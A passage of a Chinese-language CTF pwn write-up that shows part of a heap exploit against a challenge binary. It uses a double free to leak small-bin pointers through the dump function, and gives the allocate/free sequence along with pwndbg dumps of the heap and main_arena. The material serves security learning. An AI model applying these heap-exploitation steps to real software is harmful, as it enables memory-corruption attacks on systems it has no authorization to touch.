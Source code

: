 ```c
  return result;
}
```

>   输入index，若标志位为1，打印*(24LL * v2 + a1 + 16)位置，长度为*(24LL * v2 + a1 + 8)的内容。



没有uaf，内存free掉后不能查看其中的内容，但是可以double free获得指向small bin的index，释放后通过dump打印出来。

首先分配一些相同大小的fast chunk ，在分配一个small chunk，释放掉其中的一个fast chunk。

```text
allocate(10)#chunk0
allocate(10)#chunk1
allocate(10)#chunk2
allocate(10)#chunk3
allocate(80)#chunk4
free(1)
```

```text
pwndbg> x/32gx  0x557968428000
0x557968428000:	0x0000000000000000	0x0000000000000021 <=chunk0
0x557968428010:	0x0000000000000000	0x0000000000000000
0x557968428020:	0x0000000000000000	0x0000000000000021 <=chunk1
0x557968428030:	0x0000000000000000	0x0000000000000000
0x557968428040:	0x0000000000000000	0x0000000000000021 <=chunk2
0x557968428050:	0x0000000000000000	0x0000000000000000
0x557968428060:	0x0000000000000000	0x0000000000000021 <=chunk3
0x557968428070:	0x0000000000000000	0x0000000000000000
0x557968428080:	0x0000000000000000	0x0000000000000061 <=chunk4
0x557968428090:	0x0000000000000000	0x0000000000000000
0x5579684280a0:	0x0000000000000000	0x0000000000000000
0x5579684280b0:	0x0000000000000000	0x0000000000000000
0x5579684280c0:	0x0000000000000000	0x0000000000000000
0x5579684280d0:	0x0000000000000000	0x0000000000000000
0x5579684280e0:	0x0000000000000000	0x0000000000020f21
0x5579684280f0:	0x0000000000000000	0x0000000000000000
pwndbg> x/32gx &main_arena
0x7f063731bb20 <main_arena>:	0x0000000000000000	0x0000557968428020
0x7f063731bb30 <main_arena+16>:	0x0000000000000000	0x0000000000000000
0x7f063731bb40 <main_arena+32>:	0x0000000000000000	0x0000000000000000
0x7f063731bb50 <main_arena+48>:	0x0000000000000000	0x0000000000000000
0x7f063731bb60 <main_arena+64>:	0x0000000000000000	0x0000000000000000
0x7f063731bb70 <main_arena+80>:	0x0000000000000000	0x00005579684280e0
0x7f063731bb80 <main_arena+96>:	0x0000000000000000	0x00007f063731bb78
0x7f063731bb90 <main_arena+112>:	0x00007f063731bb78	0x00007f063731bb88
0x7f063731bba0 <main_arena+128>:	0x00007f063731bb88	0x00007f063731bb98
0x7f063731bbb0 <main_arena+144>:	0x00007f063731bb98	0x00007f063731bba8
0x7f063731bbc0 <main_arena+160>:	0x00007f063731bba8	0x00007f063731bbb8
0x7f063731bbd0 <main_arena+176>:	0x00007f063731bbb8	0x00007f063731bbc8
0x7f063731bbe0 <main_arena+192>:	0x00007f063731bbc8	0x00007f063731bbd8
0x7f063731bbf0 <main_arena+208>:	0x00007f063731bbd8	0x00007f063731bbe8
0x7f063731bc00 <main_arena+224>:	0x00007f063731bbe8	0x00007f063731bbf8
0x7f063731bc10 <main_arena+240>:	0x00007f063731bbf8	0x00007f063731bc08
```
